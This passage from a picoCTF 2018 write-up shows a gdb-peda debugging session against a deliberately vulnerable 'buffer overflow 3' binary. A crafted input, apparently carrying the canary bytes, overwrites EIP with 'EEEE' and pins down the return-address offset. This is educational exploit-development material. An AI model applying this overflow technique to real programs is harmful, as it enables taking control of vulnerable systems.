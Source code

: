 Now we proceed like before.
Lets debug:
```bash
gdb -x ./vuln


GNU gdb (Ubuntu 8.0.1-0ubuntu1) 8.0.1
Copyright (C) 2017 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./vuln...(no debugging symbols found)...done.
gdb-peda$ run
Starting program: /home/roee/CTFs-Writeups/picoCTF-2018/Binary/11-buffer_overflow_3-450/vuln 
How Many Bytes will You Write Into the Buffer?
> 300
Input> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA4xV,AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKK
Ok... Now Where's the Flag?

Program received signal SIGSEGV, Segmentation fault.

[----------------------------------registers-----------------------------------]
EAX: 0x0 
EBX: 0x0 
ECX: 0xf7f9a894 --> 0x0 
EDX: 0x0 
ESI: 0x1 
EDI: 0xf7f99000 --> 0x1d1d70 
EBP: 0x44444444 ('DDDD')
ESP: 0xffffd040 ("FFFFGGGGHHHHIIIIJJJJKKKK\n")
EIP: 0x45454545 ('EEEE')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x45454545
[------------------------------------stack-------------------------------------]
0000| 0xffffd040 ("FFFFGGGGHHHHIIIIJJJJKKKK\n")
0004| 0xffffd044 ("GGGGHHHHIIIIJJJJKKKK\n")
0008| 0xffffd048 ("HHHHIIIIJJJJKKKK\n")
0012| 0xffffd04c ("IIIIJJJJKKKK\n")
0016| 0xffffd050 ("JJJJKKKK\n")
0020| 0xffffd054 ("KKKK\n")
0024| 0xffffd058 --> 0xa ('\n')
0028| 0xffffd05c --> 0xf7ddf986 (<__libc_start_main+246>: add    esp,0x10)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x45454545 in ?? ()
gdb-peda$ 
```
